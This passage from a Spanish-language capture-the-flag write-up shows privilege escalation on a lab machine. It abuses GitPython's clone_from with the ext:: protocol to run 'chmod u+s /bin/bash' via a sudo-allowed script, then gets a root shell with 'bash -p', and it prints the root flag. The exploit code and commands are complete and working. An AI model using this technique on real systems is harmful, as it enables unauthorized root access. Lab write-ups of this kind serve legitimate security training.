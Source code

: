 ```python
from git import Repo
import os

# Inicializar un repositorio git vacío (opcionalmente en modo bare)
r = Repo.init('', bare=True)

# Ejecutar el comando para establecer el bit setuid en /bin/bash
command = 'chmod u+s /bin/bash'
r.clone_from('ext::sh -c "{}"'.format(command), '/tmp/evil_repo', multi_options=["-c", "protocol.ext.allow=always"])

# Ejecutar /bin/bash para asegurar el setuid
os.system('/bin/bash')
```

Crearemos ese archivo en `/tmp` y ahora lo ejecutaremos para que se nos ponga con `SUID` la `bash`...

```shell
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py /tmp/payload.py
```

Saltaran algunos errores, pero si hacemos lo siguiente...

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-sr-x 1 root root 1396520 Mar 14 11:31 /bin/bash
```

Veremos que funciono, por lo que haremos...

```shell
bash -p
```

Y ya seremos `root`, ahora leeremos la flag...

> root.txt (flag2)

```
318b5b7ad0c1f48a997d10fbcf28b7fc
```
